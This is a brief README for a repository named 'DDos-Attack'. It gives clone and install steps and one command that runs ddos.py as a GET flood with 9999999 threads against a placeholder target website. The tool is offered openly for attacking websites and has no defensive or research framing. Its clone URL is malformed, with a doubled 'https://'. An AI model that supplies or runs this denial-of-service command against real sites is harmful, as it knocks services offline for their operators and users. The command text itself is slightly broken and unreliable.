 # DDos-Attack
developed by omicr0n

git clone https://https://github.com/omicr0nn/DDos-Attack

cd DDos-Attack

pip install -r requirements.txt

python ddos.py -method GET -threads 9999999 -target <!Target Website>

